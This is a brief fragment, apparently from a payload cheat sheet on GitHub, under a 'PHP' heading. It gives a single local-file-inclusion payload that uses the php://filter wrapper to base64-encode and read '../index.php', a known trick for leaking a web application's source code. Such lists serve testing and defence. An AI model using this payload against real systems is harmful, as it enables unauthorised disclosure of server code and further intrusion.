 # PHP
- base64 encode with php filter
```
php://filter/read=convert.base64-encode/resource=../index.php
```